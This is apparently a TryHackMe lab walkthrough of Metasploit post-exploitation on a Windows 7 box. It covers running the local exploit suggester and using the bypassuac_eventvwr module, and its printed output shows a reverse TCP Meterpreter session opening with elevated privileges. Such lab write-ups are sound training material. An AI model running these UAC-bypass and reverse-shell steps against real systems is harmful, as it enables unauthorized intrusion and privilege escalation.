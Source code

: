 **What build of Windows is the system?**

```shell
meterpreter > sysinfo
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

**Now that we know some of the finer details of the system we are working with, let's start escalating our privileges. First, what is the architecture of the process we're running?**

- x64

Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command `run post/multi/recon/local_exploit_suggester`. *This can appear to hang as it tests exploits and might take several minutes to complete*

```shell
exploit/windows/local/bypassuac_eventvwr
```

Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit?
Now that we have an exploit in mind for elevating our privileges, let's background our current session using the command `background` or `CTRL + z`. Take note of what session number we have, this will likely be 1 in this case. We can list all of our active sessions using the command `sessions` when outside of the meterpreter shell.
Go ahead and select our previously found local exploit for use using the command `use FULL_PATH_FOR_EXPLOIT`

Local exploits require a session to be selected (something we can verify with the command `show options`), set this now using the command `set session SESSION_NUMBER`

Now that we've set our session number, further options will be revealed in the options menu. We'll have to set one more as our listener IP isn't correct. What is the name of this option?

Set this option now. You might have to check your IP on the TryHackMe network using the command `ip addr`

After we've set this last option, we can now run our privilege escalation exploit. Run this now using the command `run`. Note, this might take a few attempts and you may need to relaunch the box and exploit the service in the case that this fails. 

```shell
msf6 exploit(windows/local/bypassuac_eventvwr) > run

[*] Started reverse TCP handler on 10.2.127.225:5555 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\SysWOW64\eventvwr.exe
[+] eventvwr.exe executed successfully, waiting 10 seconds for the payload to execute.
[*] Sending stage (175686 bytes) to 10.10.223.231
[*] Meterpreter session 2 opened (10.2.127.225:5555 -> 10.10.223.231:49213) at 2022-07-08 18:09:51 -0700
[*] Cleaning up registry keys ...
```

